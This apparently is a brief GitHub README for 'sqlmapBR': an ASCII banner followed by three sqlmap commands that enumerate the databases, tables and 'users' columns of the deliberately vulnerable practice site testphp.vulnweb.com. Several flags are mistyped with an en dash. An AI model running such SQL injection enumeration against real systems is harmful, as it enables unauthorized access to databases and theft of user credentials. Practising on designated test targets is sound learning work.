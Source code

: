 # sqlmapBR


"  ___  ___  _    __  __   _   ___ 
  / __|/ _ \| |  |  \/  | /_\ | _ \
  \__ \ (_) | |__| |\/| |/ _ \|  _/
  |___/\__\_\____|_|  |_/_/ \_\_|  
  | _ ) _ \                        
  | _ \   /                        
  |___/_|_\"                        
                                                         


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns


